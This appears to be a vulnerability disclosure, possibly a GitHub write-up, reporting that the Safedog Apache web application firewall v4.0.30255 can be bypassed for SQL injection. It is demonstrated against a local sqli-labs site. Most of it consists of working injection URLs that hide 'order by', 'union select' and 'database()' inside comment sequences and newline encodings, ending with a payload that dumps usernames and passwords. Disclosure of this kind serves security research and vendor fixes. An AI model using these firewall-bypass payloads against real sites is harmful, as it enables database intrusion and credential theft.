









Update：2021.10.25
​

# SQL injection bypass vulnerability exists in website security dog (APACHE) v4.0.30255 of Xiamen Fuyun Information Technology Co., Ltd

# 1. Version information

The latest version of safe dog Apache client official website: [http://free.safedog.cn/](http://free.safedog.cn/)
​

Download address: [http://free.safedog.cn/website_](http://free.safedog.cn/website_) safedog.html
​

Influence product: Apache version v4.0.30255 of website security dog of Xiamen Fuyun Information Technology Co., Ltd
​

# 2. bypass injection
Install the program on windows server2012, install phpstudy2018, and deploy sqli labs website
​

Normal link: `​[http://192.168.126.154/sqli/Less-1/?id=1](http://192.168.126.154/sqli/Less-1/?id=1)`

## 2.1 Bypass keywords：order by

`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order by 1 --+`   
At this time, it is intercepted by the safedog
​

use  bypass keywords: `order /*//--/*/ by 121 --+ `
​

`[http://192.168.126.154/sqli/Less-1/?id=1'](http://192.168.126.154/sqli/Less-1/?id=1') order /*//--/*/ by 121 --+`
​

Successfully bypassed keyword order by
## 2.2 Bypass keywords: union select 

The same method: `Union / * / / -- / * / select 1,2,3--+`

## 2.3  Bypass keywords: database()

intercepted：

bypass ：
​

`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1') union /*//--/*/ /*!--+/*%0aselect/*!1,2,*/database /*//--/*/ () --+`

## 2.4 Get all data
`[http://192.168.126.154/sqli/Less-1/?id=-1'](http://192.168.126.154/sqli/Less-1/?id=-1')  union /*!--+/*%0aselect/*!1,2,*/  group_concat(concat_ws(0x7e,username, password))     /*!from*/    security.users --+`
​

​

